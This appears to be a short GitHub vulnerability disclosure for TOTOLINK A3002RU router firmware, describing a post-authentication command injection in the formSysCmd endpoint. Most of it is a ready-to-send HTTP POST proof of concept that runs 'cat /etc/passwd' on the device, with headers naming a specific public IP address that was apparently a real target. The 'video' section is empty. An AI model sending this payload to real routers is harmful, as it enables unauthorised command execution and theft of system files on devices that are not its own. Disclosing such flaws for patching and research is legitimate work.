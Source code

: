 ## TOTOLINK-A3002RU-RCE

Firmware version: V2.0.0-B20190902.1958

### description
TOTOLINK-A3002RU has a post-auth insecure permission vulnerability that can lead to the execution of any cmd


POC:

```
POST /boafrm/formSysCmd HTTP/1.1
Host: IP
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://113.53.30.58:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/110.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.
8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.53.30.58:8443/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

submit-url=%2Fsyscmd.htm&sysCmdselect=5&sysCmdselects=0&save_apply=Run+Command&sysCmd=c
at+/etc/passwd
```

video:

